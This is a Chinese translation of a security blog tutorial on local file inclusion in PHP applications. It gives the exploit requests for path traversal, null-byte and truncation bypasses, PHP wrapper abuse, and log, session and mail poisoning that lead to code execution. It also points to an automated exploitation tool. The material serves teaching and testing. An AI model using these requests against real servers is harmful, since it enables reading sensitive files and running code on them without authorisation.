# CVV #1:本地文件包含

> 原文：<https://infosecwriteups.com/cvv-1-local-file-inclusion-ebc48e0e479a?source=collection_archive---------0----------------------->

这是一个关于“常见漏洞载体”和相关利用方法的简短系列。

![](img/2b636d89c7f90d5c2b8b2e30de78526a.png)

只是一个毫无意义的形象

我将从一个非常著名且古老的向量开始这个系列:**本地文件包含**(简称:“LFI”)。

根据维基百科，“LFI”被描述为:

> *一种“文件包含漏洞”[…]，通常会影响依赖脚本运行时的 web 应用程序[…]，本地文件(即当前服务器上的文件)可能会被包含在内以供执行。”*

还有一个简短的例子(用 PHP 编写)很好地描述了漏洞(及其基本形式):

```
<?php 
   include($_GET['filename'] . '.php'); 
?>
```

通过使用 [**路径遍历**](https://en.wikipedia.org/wiki/Directory_traversal_attack) 来导航和包含敏感或有用的文件，可以很容易地利用这个示例，在这个示例中 */etc/passwd/* 基于服务器的操作系统是基于 Linux 的假设:

```
GET vulnerable.php?filename=../../../etc/passwd HTTP/1.1
Host: victim.com
```

HTTP 响应:

```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
```

虽然这种类型的漏洞非常古老，但如果被发现，很有可能会将“LFI”扩展为一个 [**远程代码执行**](https://en.wikipedia.org/wiki/Arbitrary_code_execution) 。所以:在测试模板、附件、请求、读或写操作等与文件处理相关的功能时，尽量记住“LFI”。

以下内容根据我目前的知识描述了将“LFI”扩展为“RCE”时可能有用的方法。

感谢: *_lavalamp、smiegles、arr0way、d.w .、swisskey、rawsec_cyber、j.adriaans* 为本主题贡献他们的知识。

**[1]路径截断**

PHP 默认处理 */etc/passwd* ，如 */etc/passwd/* 或*/etc/passwd//*或 */。/etc/passwd* ，在打开文件之前，尾部的斜线会被去掉。在大多数 PHP 安装中，长于*4096*字节的文件名会被截掉，因此多余的字符会被丢弃。这允许通过简单地将带有尾随斜线的参数推过其大小来绕过硬编码的文件扩展名:

```
GET vulnerable.php?filename=../../../etc/passwd/././././././././/././././././././././[ and so on ] HTTP/1.1
```

**[2]空字节注入**

URL 编码的 nullbyte *%00* 可以在 PHP ≤ *v.5.3\.* 上使用，以切断硬编码的文件扩展名。由于 PHP 与 C 的关系，这是可能的。在 C 中，一个空字节代表一个字符串的结尾，因此空字节之后的所有字符都将被忽略。

```
GET vulnerable.php?filename=../../../etc/passwd%00 HTTP/1.1
```

**[3] /proc/self**

因为 Linux 系统几乎所有的事情都使用文件结构，所以可以通过 */proc/self/environ 访问当前进程(self)的环境变量。*其中一个环境变量集(如果 *apache2* 正在运行)是用户代理，它可以通过 HTTP 请求来控制。在这种情况下,“RCE”可以通过请求文件以及写入 HTTP 用户代理字段的有效载荷来实现。

```
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```

类似地，*/proc/self/FD/<id>*(或者它的符号链接: */dev/fd* )可以与 HTTP Referer 字段结合使用，将有效负载注入到由 *apache2* 打开的错误日志中。尽管需要先强行使用这些 id 来确定引用打开文件的当前活动的文件描述符。

**[4] PHP 包装器**

有一些 PHP 包装器可以通过 PHP 守护进程访问不同的 I/O 或数据流，并且可以(如果启用的话；allow_url_include)导致直接执行指令。 *php://input* 是一个只读流，允许从请求体中读取原始数据。在这种情况下，可以通过后请求插入代码:

```
POST vulnerable.php?filename=php://input HTTP/1.1
Host: victim.com<?=system('ls'); ?>
```

php://filter 是一种元包装器，允许在打开时对流应用过滤器。它可以用来读取 PHP 文件的内容(当以自然的方式包含时，它会被解释):

```
GET vulnerable.php?filename=php://filter/convert.base64-encode/resource=../vulnerable.php HTTP/1.1
```

在这种情况下，响应是 Base64 编码的(还有其他返回响应的变体，例如 ROT13 编码:*filter/read = string . rot 13/resource =)../vulnerable.php* )。

如果易受攻击的应用程序接受文件上传，则可以使用 *zip://* 或 *phar://* (PHP 存档格式)包装指向上传和压缩版本的有效负载，并通过直接路径声明对其进行解包:

```
zip archive.zip payload.php
--
GET vulnerable.php?filename=zip://archive.zip%23payload.php HTTP/1.1
```

包装器不需要. zip 文件扩展名来解包和解释数据(也可以使用重命名的 ZIP 存档)。

**【5】原木中毒**

Apache 或 Nginx 等 Web 服务器将用户请求或应用程序相关的错误(如堆栈跟踪)记录到服务器上的特定日志文件中。这些文件可以通过例如经由某种 HTTP 方法用有效载荷请求 HTTP 状态 *404* (未找到的页面)来操纵。当心！包含这些文件会使浏览器崩溃(日志文件可能很大)。

```
GET vulnerable.php?filename[]= HTTP/1.1
Referer: <?=phpinfo();?>
--
GET vulnerable.php?filename=../../../var/log/nginx/error_log HTTP/1.1
```

还可以使用 *SSH* 认证(类似的认证方案如 FTP 也在工作)通过连接到 SSH 服务来交付和执行有效负载:

```
ssh <?=phpinfo();?>@<ip-of-vulnerable-target>
--
GET vulnerable.php?filename=../../../var/log/auth.log HTTP/1.1
```

**[6] PHP 会话**

PHP 将其用户会话存储在位于*/var/lib/phpX/sess _<PHPSESSID>*(其中 x =版本)下的文件中。如果应用程序上有任何功能，如将数据推入当前用户会话文件的登录(例如，用于稍后反映它的用户名)，则该功能可能被滥用来将有效载荷保存到当前会话文件中。

```
POST login.php HTTP/1.1
Host: victim.comusername=<?=phpinfo();?>&password=test
---
GET vulnerable.php?filename=../../../var/log/nginx/error_log HTTP/1.1
```

**【7】phpinfo()**

phpinfo()函数的输出包含 PHP 变量的值，包括通过 POST、GET 或 FILE 请求设置的任何值。这可用于调试解释器的行为，例如上传一个临时存储在 */tmp/ < random >* 中的文件，并在调用结束时删除。通过对函数进行多次上传并仔细控制读取，可以检索临时文件的名称并发出请求，指定临时文件名。由 D35m0nd142 创建的“LFISuite”允许利用这种复杂的方法:

[](https://github.com/D35m0nd142/LFISuite) [## D35m0nd142/LFISuite

### LFISuite -全自动 LFI 开发(+反向外壳)和扫描仪

github.com](https://github.com/D35m0nd142/LFISuite) 

**【8】电子邮件**

如果服务器正在运行邮件服务，则可以通过邮件发送有效负载，并将其包含在 */var/log/ <用户>* 下的相关日志中(其他每个用户都有自己的文件)。

```
mail -s "<?=phpinfo();?>" www-data@victim.com < /dev/null
---
GET vulnerable.php?filename=../../../var/log/www-data HTTP/1.1
```

我希望你学到了一些新东西。如果您发现任何内容相关或语法错误或有任何补充，请写下评论。

诚挚的问候

SI9INT([twitter.com/@si9int](http://twitter.com/@si9int)|[https://SI9INT . sh](https://si9int.sh))